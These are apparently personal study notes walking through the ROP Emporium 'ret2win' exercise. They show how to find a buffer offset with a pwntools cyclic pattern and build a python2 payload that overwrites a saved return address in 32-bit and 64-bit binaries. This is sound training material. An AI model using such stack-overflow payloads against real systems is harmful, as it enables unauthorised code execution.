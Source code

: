 Links [[00 - Global Index (Start Here!)]] [[ROP Emporium]]

# Contents
***
- Task Description
- 32 bit
- 64 bit

## Task Description

Locate a method that you want to call within the binary.  
Call it by overwriting a saved return address on the stack.

## 32 bit

File checks:
32 bit ELF with no canaries
Checking function from within pwndbg.
Three of intrest; main, pwnme, ret2win

For the exploit all that is needed is the buffer size and the location of the ret2win function.

make a cyclic pattern.
```python
from pwn import *
g = cyclic_gen()
g.get(100)
```
Then use ```g.find()``` to get the buffer size of 44.
The ret2win function has a memory location of 0x804862c
little endian byte
```
\x2c\x86\x04\x08
```
Generate the payload
```bash
python2 -c 'print "A"*44+"\x2c\x86\x04\x08"' > payload.32bit
```
Run it against the binary. This works and gives out the flag.
```flag
ROPE{a_placeholder_32byte_flag!}
```

## 64 bit

File Checks
64bit ELF with no canaries
Same three function as the 32bit
Find the buffer size by adding 4 bytes to the RBP
which is 40 bytes
find the memory location of the ret2win functions.
0x400756
memory location needs to be 8 bytes
0x0000000000400756
convert to little endian
```bash

\x56\x07\x40\x00\x00\x00\x00\x00
```
Add the buffer and run the payload

---
Creation date: 08-10-2022

Last modified date: Sunday 8th October 2022
***

